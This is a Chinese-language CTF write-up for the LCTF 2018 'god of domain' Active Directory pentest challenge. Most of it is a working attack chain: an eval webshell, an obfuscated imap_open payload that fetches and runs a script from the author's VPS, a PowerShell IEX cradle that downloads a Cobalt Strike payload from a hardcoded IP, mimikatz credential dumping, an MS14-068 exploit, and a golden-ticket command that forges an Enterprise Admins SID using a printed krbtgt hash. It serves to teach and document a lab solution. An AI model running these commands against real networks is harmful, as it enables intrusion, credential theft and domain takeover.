 # god of domain-pentest writeup

前排先感谢各位师傅的手下留情，让我们的运维压力少了不少压力。
整个域环境其实挺难搭的，尤其是搭在腾讯云上，由于腾讯云只支持windowsserver虚拟机，以及本地管理员用户登录，导致我无法在172.21.0.8上登录域用户，所以大家也无法抓到域用户的密码，所以只好把域用户写到题目描述中了。

### 拓扑

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-19_00-57-40.png)

### 入口

首先代码如下

```php
 <?php
highlight_file(__FILE__);
$lshell=$_GET['lshell'];
eval($lshell);
var_dump($lshell);
NULL 
```

#### 解法一 

入口很简洁，一上来就给了你一个一句话木马，但是看一下phpinfo会发现我限制了严格的disable_function和open_basedir
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-08-33.png)
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-08-33.png)
这里首先我们最终目的是bypass open_basedir，查看任意目录的文件，但是常用的方法我都禁止了，所以解决问题还得回到bypass disable_function,这里丢一个最新的bypass方式

```
https://github.com/Bo0oM/PHP_imap_open_exploit
```

可以通过这个payload反弹shell

```
%24server%20%3D%20%22x%20-oProxyCommand%3Decho%5CtY3VybCB2cHMucHVwaWxlcy5jb218cHl0aG9u%7Cbase64%5Ct-d%7Csh%7D%22%3B%0Aimap_open(%27%7B%27.%24server.%27%3A143%2Fimap%7DINBOX%27%2C%20%27%27%2C%20%27%27)%20or%20die(%22%5Cn%5CnError%3A%20%22.imap_last_error())%3B
```

/var/www/ew.txt
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-22-52.png)
这里提供了10个socks5 端口代理，供各位师傅代理进内网，

#### 解法二

nmap直接扫，发现1080-1090端口开放是代理端口，直接链接

#### 解法三

ROIS的师傅构造了一个一句话版的regork，膜
地址[https://github.com/zsxsoft/reGeorg](https://github.com/zsxsoft/reGeorg)

### 子域-PC

这里有两种方式可以getshell

1. proxychains4 代理一下nmap扫内网，发现172.21.0.8开放了80端口，访问一看是个内网的phpstudy，那就可以用默认密码root，root登录phpmyadmin，修改general log为ON，general log file为C:\phpStudy/PHPTutorial/WWW/xxxx.php
   可以getshell
   ![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-40-14.png)
2. ms17-010直接打

getshell后打开cmd使用cobaltstrike的payload
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-53-37.png)
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-52-09.png]

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://139.199.27.197:8000/aaa'))"
```

在shell上执行，可以得到回弹的shell
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-54-56.png)
查看下权限是本地管理员权限，那么可以直接用mimikatz抓取密码
!()[https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_17-55-47.png]
根据题目描述，域用户为web.lctf.com\buguake,密码为xdsec@lctf2018

### 子域-域控

通过

```
ipconfig /all
```

可以得到子域域控的ip地址

```
172.21.0.7
```

收集域控信息

```
nltest /dsgetdc:web.lctf.com
```

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-14-28.png)
可以得到域控的hostname
一切准备妥当后，我们可以尝试一下ms14-068拿子域域控

```
python goldenPac.py -dc-ip 172.21.0.7 -target-ip 172.21.0.7 web.lctf.com/buguake:'xdsec@lctf2018'@sub-dc
```

getshell
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-20-31.png)

### 父域-域控

老规矩通过

```
ipconfig /all
```

可以得到父域域控的ip地址
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-21-33.png)

```
172.17.0.10
```

收集父域域控的信息

```
nltest /dsgetdc:lctf.com
```

![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-22-21.png)
这里是本题重要的一个考点，修复了14-068，想拿父域域控需要设计到跨域渗透的问题。所以我们可以利用域信任关系的漏洞进行攻击
参考资料[http://www.4hou.com/technology/10049.html](http://www.4hou.com/technology/10049.html)
如文中提到

```
由于信任在Active Directory林中工作原理的原因，sidHistory属性（PAC中的“ExtraSids”）在林的域内比较重要，因为这些SID在“SID筛选”保护的跨域引用中未被滤除掉。因此，将其sidHistory 或 ExtraSids设置为“Enterprise Admins”SID（仅存在于林根中的域用户组）的子域中的任何用户将有效地工作，就好像他们是企业管理员一样。正如微软已经知道这是一个问题，而且至少从 2005年的ITPro Windows文章以及几乎可以肯定之前的知识已经完全公开，sidHistory 是一个非常难以修改的受保护的属性。
```

我们可以通过设置一个用户的sidHistory 或 ExtraSids为“Enterprise Admins”SID，也就是企业管理员组的SID(企业管理员组由每个域的域管组成),这样当我们尝试访问一个新的资源时，如果SID或SID历史记录匹配，则根据ACL中指定的访问权限授予我们访问权限。
那么我们应该如何伪造这个sid history呢，这里我们就用到了黄金票据（一种有效的TGT Kerberos票据，因为它是由域Kerberos帐户（KRBTGT）加密和签名的）的原理，只要我们能获得域账户krbtgt的hash值，便可以对其任意域用户的sid history进行操控。
参考链接:[https://www.cnblogs.com/backlion/p/8127868.html](https://www.cnblogs.com/backlion/p/8127868.html)
获取子域和父域的sid
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/Snipaste_2018-11-18_18-28-15.png)
获取子域控krbtgt的密码hash值
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/46D2D12CCECD550E30F656A20E24AA91.png)

```
kerberos::golden /admin:administrator /domain:web.lctf.com /sid:S-1-5-21-508737280-3758319117-1445457868 /sids:S-1-5-21-35370905-2178818314-1839806818-519 /krbtgt:42cb5299c2e40ad7d04cb2d7d16f3a46 /startoffset:0 /endin:600 /renewmax:10000 /ptt
```

查看票证是否注入成功
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/D89E0D7EB2290FA511118DF6D774FE18.png)

flag就在父域域控的桌面上
![](https://pupiles-1253357925.cos.ap-chengdu.myqcloud.com/lctf2018/8A4D695EA9F3BD06D351F19458B8246B.png)